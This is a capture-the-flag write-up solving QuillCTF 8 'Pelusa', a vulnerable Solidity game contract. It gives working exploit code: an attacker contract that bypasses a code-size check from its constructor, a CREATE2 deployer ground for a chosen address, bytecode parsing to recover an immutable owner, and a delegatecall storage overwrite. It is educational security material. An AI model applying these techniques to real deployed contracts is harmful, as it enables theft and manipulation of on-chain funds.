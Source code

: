 # QuillCTF 8: Pelusa

> You just opened your eyes and are in Mexico 1986; help Diego set the score from 1 to 2 goals for a win, and do whatever is necessary!

**Objective of CTF:**

- Score from 1 to 2 goals for a win (i.e. increment the `goals` variable).

**Target contract:**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.7;

interface IGame {
  function getBallPossesion() external view returns (address);
}

contract Pelusa {
  address private immutable owner;
  address internal player;
  uint256 public goals = 1;

  constructor() {
    owner = address(uint160(uint256(keccak256(abi.encodePacked(msg.sender, blockhash(block.number))))));
  }

  function passTheBall() external {
    require(msg.sender.code.length == 0, "Only EOA players");
    require(uint256(uint160(msg.sender)) % 100 == 10, "not allowed");

    player = msg.sender;
  }

  function isGoal() public view returns (bool) {
    // expect ball in owners posession
    return IGame(player).getBallPossesion() == owner;
  }

  function shoot() external {
    require(isGoal(), "missed");
    (bool success, bytes memory data) = player.delegatecall(abi.encodeWithSignature("handOfGod()"));
    require(success, "missed");
    require(uint256(bytes32(data)) == 22_06_1986);
  }
}
```

## The Attack

There are several points to cover here:

- First of all, we need to implement a contract to be the `player`. This contract must have code-size 0!
- Furthermore, when the address is looked at in modulo 100, it must return 10. This means that the contract address msut be something chosen by us somehow.
- After the player is set, we can call `shoot` to make a delegate-call to our player contract. There, it will handle this call within `handOfGod()` function.
- We must access the `owner` immutable variable to give it to our contract.

We will tackle these one by one.

### Code Size 0

The solution to having a contract with code-size 0 is to make the call during it's construction phase! Since a code that runs within `constructor` is not deployed to the chain yet, i.e. it lives in calldata rather than memory, it will have code-size 0.

### Address modulo 10

How can we generate a contract with the desired address? Well, a naive solution could be to deploy many contracts until you have your desired address, in this case one that results in 10 in mod 100.

However, we got neither time nor gas for that. So, `CREATE2` comes into rescue! With `CREATE2`, we can deploy a contract with an additional salt to be used in address generation. Since we can give this salt whatever we like, we can choose one specific salt so that the address result in one such that it results in 10 mod 100.

Note that the probability of a randomly generated number being congruent to 10 modulo 100 is around 1/100. So our expected probability of generating a correct contract is about 100 tries.

### Hand of God

Our contract will handle the `handOfGod` delegate call. Delegate call's operate on the context of the caller contract, while running the code at the target contract. So, we actually have access to all storage variables during `handOfGod`, and we can simply set `goals` to be 2 to win the game.

Returning `22_06_1986` is not a problem, just write `return 22_06_1986;` and you are good to go.

### Immutable Owner

Immutable variables, introduced around compiler version 0.6, are variables that are set during the construction phase. However, the variable are not stored in storage, but instead their references within the bytecode are replaced with their computed value during deployment!

So, you can't simply read the storage to get the value of immutables, you must dive into the bytecode. This may sound like a needle-in-haystack issue, but thankfully we have a clue: `PUSH32`.

Immutable variable references are replaced with `PUSH32 <value>` within the bytecode, and there are not that many `PUSH32`'s within the code. Furthermore, in this contract the immutable value is an address, so we can expect a `PUSH32 <address>` where the address is a 32-byte value with 12-byte prepending zeros!

We can get the code via `getCode` function of ethers, and then look specifically for `PUSH32` followed by 12 bytes of zeros. Then, we will retrieve the remaining 20-bytes as the address.

```typescript
const code = await ethers.provider.getCode(contract.address);
// PUSH32 (code: 7f) followed by 12 bytes of zeros
const index = code.indexOf('7f000000000000000000000000');
const pushLine = code.slice(index, index + 66); // get the line
const ownerAddress = '0x' + pushLine.slice(26); // get remaining 20 bytes
expect(ownerAddress).to.be.properAddress;
```

This works for this challenge, but you can also do this manually by opening the code at <evm.codes/playground> and CTRL+F the string above within the code. You should expect to get just a single occurence for this challenge!

## Proof of Concept

Now, we can construct our attacker contract, along with contract that will deploy it with `CREATE2`.

```solidity
contract PelusaAttacker is IGame {
  address public owner;
  uint256 goals;

  constructor(address owner_, address target_) {
    owner = owner_; // read from private storage of target
    Pelusa(target_).passTheBall(); // become the player
  }

  function getBallPossesion() external view override returns (address) {
    return owner;
  }

  function handOfGod() external returns (uint256) {
    goals = 2; // wins via delegatecall storage collision
    return 22_06_1986;
  }
}
```

The contract implementation is rather straightforward: call `passTheBall` during construction phase and then you will become the player. Below is the contract to deploy the one above:

```solidity
contract PelusaAttackerDeployer {
  address public deployment;
  address immutable target;

  constructor(address target_) {
    target = target_;
  }

  // will check the address requirement and create the contract with Create2
  function deployAttacker(address _owner, bytes32 _salt) external {
    address addr = address(new PelusaAttacker{salt: _salt}(_owner, target));
    require(uint256(uint160(addr)) % 100 == 10, "bad address");
    deployment = addr;
  }
}
```

This deployer will take a salt parameter given by us, but it will also make sure it matched the requirement, to save gas in case it is wrong. Once it is successful, we can read the deployed address via the public `deployment` variable.

Below is the Hardhat code to execute the attack:

```typescript
describe('QuillCTF 8: Pelusa', () => {
  let owner: SignerWithAddress;
  let attacker: SignerWithAddress;

  let contract: Pelusa;
  let attackerDeployer: PelusaAttackerDeployer;

  before(async () => {
    [owner, attacker] = await ethers.getSigners();
    contract = await ethers.getContractFactory('Pelusa', owner).then(f => f.deploy());
    await contract.deployed();

    expect(await contract.goals()).to.eq(1);
  });

  it('should score a goal', async () => {
    // should deploy
    attackerDeployer = await ethers
      .getContractFactory('PelusaAttackerDeployer', attacker)
      .then(f => f.deploy(contract.address));
    await attackerDeployer.deployed();

    // immutables are stored directly within bytecode, rather than storage
    // we have to parse it from the bytecode
    // address can be found by analyzing the code at evm.codes/playground
    // or you can parse as follows
    const code = await ethers.provider.getCode(contract.address);
    const index = code.indexOf('7f000000000000000000000000'); // PUSH32 followed by 12byte zeros
    const pushLine = code.slice(index, index + 66);
    const ownerAddress = '0x' + pushLine.slice(26);
    expect(ownerAddress).to.be.properAddress;

    // randomly find the salt
    for (let i = 0; i < 2500; i++) {
      const s = ethers.utils.randomBytes(32);
      try {
        await attackerDeployer.connect(attacker).deployAttacker(ownerAddress, s);
        // console.log('Attempt:', i, '\tSalt:', Buffer.from(s).toString('hex'));
        break;
        // eslint-disable-next-line no-empty
      } catch (err) {}
    }
    // ensure deployment went right
    expect(await attackerDeployer.deployment()).to.not.eq(ethers.constants.AddressZero);

    // score the goal!
    await contract.connect(attacker).shoot();
  });

  after(async () => {
    expect(await contract.goals()).to.eq(2);
  });
});
```
